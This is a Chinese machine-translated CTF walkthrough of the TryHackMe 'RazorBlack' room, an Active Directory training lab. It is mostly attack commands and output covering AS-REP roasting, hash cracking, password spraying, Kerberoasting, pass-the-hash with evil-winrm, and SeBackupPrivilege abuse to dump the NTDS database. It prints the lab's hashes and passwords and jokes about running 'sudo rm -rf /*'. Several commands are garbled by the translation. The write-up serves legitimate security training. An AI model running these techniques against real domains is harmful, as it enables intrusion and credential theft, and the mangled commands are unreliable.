


# 剃刀黑-穿越[THM]

> 原文：<https://infosecwriteups.com/razorblack-walkthrough-thm-fde0790c182f?source=collection_archive---------0----------------------->

## 了解如何通过 CTF 攻击 Windows Active Directory


# 描述

**剃刀黑**是 **TryHackMe** 上的中等等级房间。它有一个相当有趣的描述**“这些家伙自称黑客。你能告诉他们谁是老板吗？？**”

本次挑战的目标是让您熟悉 Active Directory 枚举和利用。这篇文章涵盖了以下内容。

*   背景
*   枚举域控制器
*   利用 Kerberos
*   管理员权限提升

[](https://tryhackme.com/room/raz0rblack) [## 剃刀黑

### 这些家伙自称黑客。你能告诉他们谁是老板吗？？

tryhackme.com](https://tryhackme.com/room/raz0rblack) 

# 列举

让我们点燃 NMAP，看看它能给我们带来什么

```
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2021–07–17 21:34 IST
Nmap scan report for 10.10.25.33
Host is up (0.22s latency).
Not shown: 986 closed ports
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
111/tcp open rpcbind
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldapsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
2049/tcp open nfs
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
3389/tcp open ms-wbt-server
```

我们可以在这里看到一个活动目录的所有公共端口。

**1:域名是什么？**

我们可以执行各种扫描来找出域名，但我将使用 NMAP。我们发现端口`389`是打开的，因此我们将使用它

> nmap -n -sV —编写“ldap*而非暴力”脚本-p 389 $IP

这将给出关于`LDAP`和域名的其他重要信息。

史蒂文的国旗是什么？

现在我们需要进一步列举机器。

## #端口 111

我们将从这里开始。既然我们已经验证了一个 NFS 服务正在运行(2049/TCP 开放 NFS)，我们可以进一步深入，看看我们还能获得什么。

> showmount -e 10.10.25.33

```
Export list for 10.10.25.33:
  /users (everyone)
```

任何人都可以访问 **/users** 文件夹。让我们试着安装它

> 挂载 10.10.25.33:/users /mnt/users

在共享文件 **employee_status.xlsx** 和 **sbradley.txt 中找到两个文件**找到 sbradley.txt 中的标志并检查另一个文件。

文件 **employee_status.xlsx** 包含了一串雇员的名字。

```
daven port
imogen royce
tamara vidal
arthur edwards
carl ingram
nolan cassidy
reza zaydan
ljudmila vetrova
rico delgado
tyson williams
steven bradley
chamber lin
```

我们将根据使用的命名约定
*Steven Bradley->s Bradley*制作一个修改后的用户文件

```
 dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams
sbradley
clin
```

压缩文件的密码是什么？

现在我们有了一个用户列表，让我们用 Kerberos 来试试。我们将使用`IMPACKET’s GetNPUsers`从我们的用户列表中强行删除 Kerebos 和现有用户的散列。

将机器 IP 地址添加到`/etc/hosts`文件中以继续攻击，否则，您将无法使用该工具

> python 3 getnpusers . py-不传递 raz0rblack.thm/-users file users . txt-format hashcat-output file hashes . txt

```
cat hashes.txt$krb5asrep$23$twilliams@RAZ0RBLACK.THM:f944c5614c2277ef59298b93b1e0444d$71dca0c34c4867377c6bb3a24d6496ac00339a69aa7ea9368b2dc4e3b5c7c692b95170a087cd57137076f628b2f48ec17ae51271012e9bf948d8d07ef92a84f6a2d01699fa2fc70c1551cfaccd08f3d81ce7187674a62d765dbcda4e15ed32348f6c3329d7014d959daefa42ecf0733a560e17df190a519f8daee10713f21dfb6246641f806ec0e370229705e6a65a0024b4169e0504a29b1aea2d9e02d2fe314de02cb90976038e361cfe557f94d78d7e9c05580527ec4432c16951290dbf548dc09ed09022ad72f158424fba1fe5a9a33d1f584e937410f3e4abcfe1fdb0d60addd428b1029b6fd266eda973a1f465
```

让我们来破解哈希。

```
hashcat -m 18200 hashes.txt rockyou.txt
```

在 SMB 上测试这些信用

```
smbmap -H $IP -u twilliams -p roastpotatoes
[+] IP: 10.10.25.33:445        Name: 10.10.25.33
        Disk                        Comment
        ----                        -------
        ADMIN$                  Remote Admin
        C$                      Default share
        IPC$                    Remote IPC
        NETLOGON                Logon server share
        SYSVOL                  Logon server share
        trash                   Files Pending for deletion
```

我们可以访问`IPC$` `NETLOGON` `SYSVOL`但是里面没有什么有趣的东西。还有另一个文件夹，里面有一条有趣的评论`trash`，但是我们没有权限阅读。我们可以暴力破解，看看其他用户是否有相同的密码。

保留以前使用的文件`user.txt`，用以前用户的密码制作一个文件`pass.txt`。

```
crackmapexec smb $IP -u users.txt -p pass.txtSMB         10.10.25.33    445    HAVEN-DC         [-] raz0rblack.thm\sbradley:roastpotatoes STATUS_PASSWORD_MUST_CHANGE
```

对于用户`sbradley`,我们发现一条有趣的消息`STATUS_PASSWORD_MUST_CHANGE`,消息的原因是指定的密码过期了。所以还是改密码吧。

```
smbpasswd -r $IP -U sbradley
Old SMB password: roastpotatoes
New SMB password: testing
Retype new SMB password: testing
Password changed for user sbradley on 10.10.25.33
```

现在用新密码枚举 SMB

```
smbmap -H $IP -u sbradley -p 'testing'
[+] IP: 10.10.25.33:445        Name: 10.10.25.33
        Disk                        Comment
        ----                        -------
        ADMIN$                  Remote Admin
        C$                      Default share
        IPC$                    Remote IPC
        NETLOGON                Logon server share
        SYSVOL                  Logon server share
        trash                   Files Pending for deletion
```

现在我们有了对`trash`的读取权限。下载这里找到的所有东西并进行分析。

这里有 3 个文件。

```
chat_log_20210222143423.txt         
experiment_gone_wrong.zip           
sbradley.txt 
```

两个员工之间的精彩对话。这给了我们一个深入了解，我们将做什么来进一步利用这台机器。

```
- cat chat_log_20210222143423.txt sbradley> Hey Administrator our machine has the newly disclosed vulnerability for Windows Server 2019.Administrator> What vulnerability??sbradley> That new CVE-2020-1472 which is called ZeroLogon has released a new PoC.Administrator> I have given you the last warning. If you exploit this on this Domain Controller as you did previously on our old Ubuntu server with dirtycow, I swear I will kill your WinRM-Access.sbradley> Hey you won't believe what I am seeing.Administrator> Now, don't say that you ran the exploit.sbradley> Yeah, The exploit works great it needs nothing like credentials. Just give it IP and domain name and it resets the Administrator pass to an empty hash.sbradley> I also used some tools to extract ntds. dit and SYSTEM.hive and transferred it into my box. I love running secretsdump.py on those files and dumped the hash.Administrator> I am feeling like a new cron has been issued in my body named heart attack which will be executed within the next minute.Administrator> But, Before I die I will kill your WinRM access..........sbradley> I have made an encrypted zip containing the ntds.dit and the SYSTEM.hive and uploaded the zip inside the trash share.sbradley> Hey Administrator are you there ...sbradley> Administrator .....The administrator died after this incident.Press F to pay respects
```

现在让我们打开拉链，看看里面的东西

```
- zip2john experiment_gone_wrong.zip > hash2.txt- john --wordlist=/usr/share/wordlists/rockyou.txt hash2.txt- unzip experiment_gone_wrong.zip
   Archive:  experiment_gone_wrong.zip
   [experiment_gone_wrong.zip] system.hive password:electromagnetismo
  inflating: system.hive
  inflating: ntds.dit
```

**4:Ljudmila 的 Hash 是什么？**

如前所述，我们可以使用`secretsdump.py`从之前解压缩的文件中获取散列值。

```
python3 /opt/impacket/examples/secretsdump.py -system system.hive         -ntds ntds.dit LOCAL > hashes3.txt
```

我们需要做一些格式化，只得到散列，这样我们就可以暴力破解它。现在您可以进行暴力破解并获得正确的散列

```
crackmapexec smb $IP -u lvetrova -H hashes3.txt
```

**5:柳德米拉的旗帜是什么？**

我们将使用上一个问题中获得的散列来连接到使用`Evil-WinRM`的系统

```
evil-winrm -i $IP -u lvetrova -H f220d3988deb3f516c73f40ee16c431d 
```

PowerShell 有一种存储加密凭据的方法，只有存储这些凭据的用户帐户才能访问这些凭据。要检索凭证并在脚本中使用它，需要从 XML 文件中读取它。我们将使用这个方法来获取用户的散列

`PS C:\Users\lvetrova> $Credential = Import-Clixml -Path "lvetrova.xml"

PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password`

**6:xyan 1d 3 的密码是什么？**

我们将使用带有`lvetrova`凭证的散列函数:

pass the hash 攻击是一种利用漏洞的攻击，攻击者窃取一个[哈希](https://searchsqlserver.techtarget.com/definition/hashing)用户凭证，在不破解它的情况下，重新使用它来欺骗认证系统在同一网络上创建一个新的认证会话。

传递散列主要是一种横向移动技术。这意味着黑客在已经损害设备之后，正在使用 pass hash 来提取额外的信息和凭证。

```
python3 /opt/impacket/examples/GetUserSPNs.py raz0rblack.thm/lvetrova -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -outputfile hashes4.txt
```

我们得到了 Xyan1d3 帐户的散列值，现在让我们来破解它。

```
hashcat -m 13100 hashes4.txt rockyou.txt
```

**7:xyan 1d 3 的旗帜是什么？**

使用上一步中找到的凭据登录。

```
evil-winrm -i $IP -u xyan1d3 -p cyanide9amine5628
```

使用 ques 5 中使用的相同技术来转储密码。

`PS C:\Users\xyan1d3> $Credential = Import-Clixml -Path "xyan1d3.xml"
PS C:\Users\xyan1d3> $Credential.GetNetworkCredential().password`

**8:根旗是什么？**

现在挑战的最艰难部分来了，特权升级。这让我困惑了好一会儿，但是在搜索了一下之后，我找到了如何继续下去的方法。

首先，让我们看看用户拥有什么特权

```
*Evil-WinRM* PS C:\Users\xyan1d3> whoami /all[...]PRIVILEGES INFORMATION
----------------------Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

有趣的是

```
SeBackupPrivilege             Back up files and directories  Enabled
```

这种特定的权限提升基于为用户分配**权限权限**的行为。它旨在允许用户创建系统的备份副本。该权限允许用户读取所有文件中的任何文件，其中可能还包括一些敏感文件，如 **SAM 文件或系统注册表文件**。从攻击者的角度来看，在获得系统中的初始立足点，然后通过读取 SAM 文件并可能破解系统或网络上的高权限用户的密码，移动到提升的外壳后，就可以利用这一点。

在利用这个漏洞之前，我们需要将域凭证转储到一个文件中。为此，我们将使用 [**DiskShadow(一个 Windows 签名的二进制)**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-diskshadow-a-windows-signed-binary) **。**

准备`diskshadow.txt`

```
- cat diskshadow.txtset metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h:
```

将此文件上传到机器

`*Evil-WinRM* PS C:\Users\xyan1d3> mkdir C:\tmp
*Evil-WinRM* PS C:\tmp> upload diskshadow.txt`

从创建的目录中执行`diskshadow.exe`

```
*Evil-WinRM* PS C:\tmp> diskshadow.exe /s c:\tmp\diskshadow.txtMicrosoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  HAVEN-DC

-> set metadata C:\tmp\tmp.cabs
-> set context persistent nowriters
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {29b531e8-3c00-49f9-925d-5e1e3937af13} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6} set as environment variable.

Querying all shadow copies with the shadow copy set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}

        * Shadow copy ID = {29b531e8-3c00-49f9-925d-5e1e3937af13}               %someAlias%
                - Shadow copy set: {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{115c1f55-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 7/16/2021 3:45:20 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: HAVEN-DC.raz0rblack.thm
                - Service machine: HAVEN-DC.raz0rblack.thm
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %someAlias% h:
-> %someAlias% = {29b531e8-3c00-49f9-925d-5e1e3937af13}
The shadow copy was successfully exposed as h:\.
```

现在让我们滥用的特权。为此，我们需要几个`dll`文件，可以从 [**这里**](https://github.com/giuliano108/SeBackupPrivilege) 下载。下载后，我们需要以下面的方式执行它，然后下载散列。

```
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege h:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite

*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system

*Evil-WinRM* PS C:\tmp> download ntds.dit

*Evil-WinRM* PS C:\tmp> download system
```

现在转储哈希值。

```
- python3 /opt/impacket/examples/secretsdump.py -system system -ntds ntds.dit LOCAL **Administrator:500:aad3b435b51404eeaad3b435b51404ee:9689931bed40ca5a2ce1218210177f0c:::**
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HAVEN-DC$:1000:aad3b435b51404eeaad3b435b51404ee:26cc019045071ea8ad315bd764c4f5c6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fa3c456268854a917bd17184c85b4fd1:::
raz0rblack.thm\xyan1d3:1106:aad3b435b51404eeaad3b435b51404ee:bf11a3cbefb46f7194da2fa190834025:::
raz0rblack.thm\lvetrova:1107:aad3b435b51404eeaad3b435b51404ee:f220d3988deb3f516c73f40ee16c431d:::
raz0rblack.thm\sbradley:1108:aad3b435b51404eeaad3b435b51404ee:351c839c5e02d1ed0134a383b628426e:::
raz0rblack.thm\twilliams:1109:aad3b435b51404eeaad3b435b51404ee:351c839c5e02d1ed0134a383b628426e:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:ab77c0dd6f5a28b63c4ae5f0eb89ad48f3ed43d52dc42f1dca2e99d8fc9cdbbf
Administrator:aes128-cts-hmac-sha1-96:81a749369e929b7f1731489b12a49df8
Administrator:des-cbc-md5:d3b646b65bceb5c7
HAVEN-DC$:aes256-cts-hmac-sha1-96:d6b41169e02a4543b90a8c697b167948413397c30f1bf5f0199a54f387358fc6
HAVEN-DC$:aes128-cts-hmac-sha1-96:5ed5bd57484ca826e09afa6e5b944c27
HAVEN-DC$:des-cbc-md5:f71a0dc89b9d079d
krbtgt:aes256-cts-hmac-sha1-96:eed4acbdf1b6cc2b3c1aef992a8cea74d8b0c4ad5b4deecf47c57c4d9465caf5
krbtgt:aes128-cts-hmac-sha1-96:3dbbd202aa0343d1b8df99785d2befbb
krbtgt:des-cbc-md5:857a46f13e91eae3
raz0rblack.thm\xyan1d3:aes256-cts-hmac-sha1-96:6de380d21ae165f55e7520ee3c4a81417bf6a25b17f72ce119083846d89a031f
raz0rblack.thm\xyan1d3:aes128-cts-hmac-sha1-96:9f5a0114b2c18ea63a32a1b8553d4f61
raz0rblack.thm\xyan1d3:des-cbc-md5:e9a1a46223cd8975
raz0rblack.thm\lvetrova:aes256-cts-hmac-sha1-96:3809e38e24ecb746dc0d98e2b95f39fc157de38a9081b3973db5be4c25d5ad39
raz0rblack.thm\lvetrova:aes128-cts-hmac-sha1-96:3676941361afe1800b8ab5d5a15bd839
raz0rblack.thm\lvetrova:des-cbc-md5:385d6e1f1cc17fb6
raz0rblack.thm\sbradley:aes256-cts-hmac-sha1-96:ddd43169c2235d3d2134fdb2ff4182abdb029a20724e679189a755014e68bab5
raz0rblack.thm\sbradley:aes128-cts-hmac-sha1-96:7cdf6640a975c86298b9f48000047580
raz0rblack.thm\sbradley:des-cbc-md5:83fe3e584f4a5bf8
raz0rblack.thm\twilliams:aes256-cts-hmac-sha1-96:05bac51a4b8888a484e0fa1400d8f507b195c4367198024c6806d8eb401cb559
raz0rblack.thm\twilliams:aes128-cts-hmac-sha1-96:a37656829f443e3fe2630aa69af5cb5a
raz0rblack.thm\twilliams:des-cbc-md5:01e958b0ea6edf07
```

最后，从这里我们得到管理员散列。我们可以用这个通过`Evil-WinRM`登录系统

```
evil-winrm -i $IP -u administrator -H 9689931bed40ca5a2ce1218210177f0c
```

**得到旗帜。**



在密码字段中，我们得到一个长字符串。让我们用赛博网破解它。



# 9:泰森的旗帜是什么？

我们可以转到 Tyson 主文件夹，找到一个很长的带标志的可执行文件

```
PS C:\users\twilliams> type .\definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_definitely_not_a_flag.exe
```

# 10:完整的绝密是什么？

浏览目录后，我们找到一个名为`"C:\Program Files\Top Secret"`的文件夹

那个文件夹里有一张图片。我们可以下载下来分析国旗。

通过看图很明显这里的答案是`:wq`


你喜欢你的饼干吗？

说好，否则我会在你的电脑上做`sudo rm -rf /*`

现在你可以选择如何回答这个问题😂

> 恭喜你完成了房间！💥

非常感谢你的阅读。喜欢就分享

可以在推特上找我: [**mayank_pandey01**](https://twitter.com/mayank_pandey01)